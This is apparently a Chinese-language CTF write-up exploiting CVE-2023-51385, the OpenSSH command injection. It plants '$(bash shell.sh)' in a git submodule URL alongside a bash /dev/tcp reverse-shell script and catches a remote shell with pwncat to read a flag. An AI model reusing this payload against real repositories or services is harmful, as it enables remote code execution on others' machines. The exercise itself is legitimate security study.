 # CVE-2023-51385

:::info

Tags

- OpenSSH 9.6 命令注入

官方数据库记录

> 在 9.6 之前的 OpenSSH 中的 ssh 中，如果用户名或主机名具有 shell 元字符，并且在某些情况下该名称被扩展令牌引用，则可能会发生操作系统命令注入。 例如，不受信任的 Git 存储库可能有一个用户名或主机名中包含 shell 元字符的子模块。

:::

参考

- [SSH ProxyCommand == unexpected code execution (CVE-2023-51385) | Vin01’s Blog](https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html)

首先，题目限制了使用 `Github` 代码托管服务，可以使用 `Gitee` 或者 [Gogs: A painless self-hosted Git service](https://gogs.io) 自托管一个 Git 服务

这里我选择使用 [Gogs: A painless self-hosted Git service](https://gogs.io) 自托管一个 Git 服务

![img](img/image_20240711-231121.png)

## 创建 submodule 仓库

首先，先创建一个仓库，只放置 `README.md` 文件，作为后续利用的 submodule

```bash
┌──(randark ㉿ kali)-[~/pocs]
└─$ mkdir CVE-2023-51385-submodule

┌──(randark ㉿ kali)-[~/pocs]
└─$ cd CVE-2023-51385-submodule/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ echo "test" > README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ ls -lh
total 4.0K
-rw-rw-r-- 1 randark randark 5 Jul 24 23:14 README.md
```

然后初始化 git 仓库，并设置仓库，创建提交

:::warning

经过测试，远程靶机的 git 服务只接受分支名为 `master` 的仓库

:::

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git config --global init.defaultBranch master

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git init
Initialized empty Git repository in /home/randark/pocs/CVE-2023-51385-submodule/.git/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git add README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git commit -m "init"
[master (root-commit) e7f93b0] init
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
```

然后在 gogs 平台上建立一个仓库，在本地 git 仓库添加远程仓库，并推送

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git remote add origin http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-submodule]
└─$ git push -u origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 212 bytes | 212.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git
 * [new branch]      master -> master
branch 'master' set up to track 'origin/master'.
```

此时，在 gogs 平台上就可以看到创建好的仓库了

![img](img/image_20240719-231950.png)

## 创建主仓库

如法炮制，在本地创建一个 `CVE-2023-51385-main` 仓库，并同步到远程 gogs 平台

```bash
┌──(randark ㉿ kali)-[~/pocs]
└─$ mkdir CVE-2023-51385-main

┌──(randark ㉿ kali)-[~/pocs]
└─$ cd CVE-2023-51385-main/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ echo "test" > README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git init
Initialized empty Git repository in /home/randark/pocs/CVE-2023-51385-main/.git/

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git add README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "init"
[master (root-commit) 7cd224b] init
 1 file changed, 1 insertion(+)
 create mode 100644 README.md

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git remote add origin http://139.*.*.*:3000/123/CVE-2023-51385-main.git

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git push -u origin master
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 213 bytes | 213.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-main.git
 * [new branch]      master -> master
branch 'master' set up to track 'origin/master'.
```

在平台上可以看到

![img](img/image_20240722-232248.png)

## 主仓库添加 submodule

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git submodule add http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git abc123
Cloning into '/home/randark/pocs/CVE-2023-51385-main/abc123'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (3/3), 192 bytes | 192.00 KiB/s, done.

┌──(randark㉿kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "add submodule"
[master 8218e99] add submodule
 2 files changed, 4 insertions(+)
 create mode 100644 .gitmodules
 create mode 160000 abc123
```

## 修改 .gitmodules 文件 植入恶意载荷

```properties title="原本的 .gitmodules 文件"
[submodule "abc123"]
        path = abc123
        url = http://139.*.*.*:3000/123/CVE-2023-51385-submodule.git
```

```properties title="修改后的 .gitmodules 文件"
[submodule "abc123"]
        path = abc123
        url = ssh://$(bash shell.sh).ichunqiu.com/bar
```

同时添加恶意脚本到根目录

```bash title="shell.sh"
/bin/bash -i >& /dev/tcp/139.*.*.*/9999 0>&1
```

## 更新修改到远程主仓库

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git submodule update --init --recursive

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git add .gitmodules abc123

┌──(randark㉿kali)-[~/pocs/CVE-2023-51385-main]
└─$ git commit -m "add evil"
[master e344f5c] add evil
 2 files changed, 2 insertions(+), 1 deletion(-)
 create mode 100644 shell.sh

┌──(randark ㉿ kali)-[~/pocs/CVE-2023-51385-main]
└─$ git push -u origin master
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 396 bytes | 396.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Username for 'http://139.*.*.*:3000': 123
Password for 'http://123@139.*.*.*:3000':
To http://139.*.*.*:3000/123/CVE-2023-51385-main.git
   7cd224b..68f1b06  master -> master
branch 'master' set up to track 'origin/master'.
```

操作之后，在 gogs 平台上可以看到

![img](img/image_20240726-232650.png)

## 执行攻击

在vps上设置监听器

```bash
root@jmt-projekt:~# pwncat-cs -lp 9999
[23:37:02] Welcome to pwncat 🐈!
bound to 0.0.0.0:9999
```

然后在靶机上填入`CVE-2023-51385-main`仓库的远程地址

```plaintext
http://139.*.*.*:3000/123/CVE-2023-51385-main.git
```

即可收到回连

```bash
root@jmt-projekt:~# pwncat-cs -lp 9999
[23:37:02] Welcome to pwncat 🐈!
[23:59:02] received connection from 39.106.20.178:33530
[23:59:03] 39.106.20.178:33530: registered new host w/ db
(local) pwncat$ back
(remote) www-data@engine-2:/tmp/CVE-2023-51385-main$ cd /
(remote) www-data@engine-2:/$ cat flag
flag{f5a44b2a-078d-479e-9382-b66a2b986c49}
```
